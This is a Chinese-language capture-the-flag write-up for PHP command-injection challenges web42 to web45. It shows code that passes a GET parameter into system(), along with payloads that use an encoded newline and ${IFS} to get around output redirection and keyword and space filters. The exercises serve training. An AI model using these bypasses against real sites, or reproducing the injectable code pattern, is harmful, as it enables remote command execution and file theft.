
## web42（%0a截断）
```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}else{
    highlight_file(__FILE__);
}
```
> /dev/null 2>&1
默认情况是1，也就是等同于1>/dev/null 2>&1。意思就是把标准输出重定向到“黑洞”，还把错误输出2重定向到标准输出1，也就是标准输出和错误输出都进了“黑洞”

这个题看样子是会将执行结果输入到一个地方，不在页面上回显，我们可以使用换行符截断
payload：/?c=tac *%0a
## web43（%0a截断）
```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
同上
payload：/?c=tac *%0a
## web44（%0a截断）
```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/;|cat|flag/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
同上
payload：/?c=tac *%0a
## web45（空格绕过）
```php
<?php
  
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| /i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
payload：/?c=tac${IFS}*%0a